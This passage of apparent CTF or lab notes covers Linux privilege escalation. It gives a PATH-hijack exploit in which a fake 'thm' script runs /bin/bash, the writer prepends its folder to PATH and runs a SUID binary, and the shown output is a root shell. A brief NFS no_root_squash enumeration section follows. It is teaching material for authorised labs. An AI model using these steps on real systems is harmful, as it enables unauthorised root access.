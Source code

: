 1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?


A simple search for writable folders can done using the “
`find / -writable 2>/dev/null`
” command. The output of this command can be cleaned using a simple cut and sort sequence.


An alternative could be the command below.

`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`


I used SUID Binary to exploit PATH
there was a file **/home/murdoch/test**

when i run it i tries to find the bin thm which was not in the path 


i can exploit this but i have to create a fake one and add it to the path.

out exploit (thm)
```sh
karen@ip-10-10-137-255:/home/murdoch$ cat thm
#!/bin/bash
/bin/bash
```

set it to path
`export PATH=/home/murdoch:$PATH`

and run the suid binary i.e : ./test

```sh
karen@ip-10-10-137-255:/home/murdoch$ ./test
root@ip-10-10-137-255:/home/murdoch# 
```


# 15. NFS
Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.  
  
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.



Look for `/etc/exports` (on the server) or use `showmount` (on your attack box):

```sh
showmount -e <target-ip>
```

OUTPUT: 
```
Export list for 10.10.10.10:
/mnt/nfs *(rw,no_root_squash,sync)
```
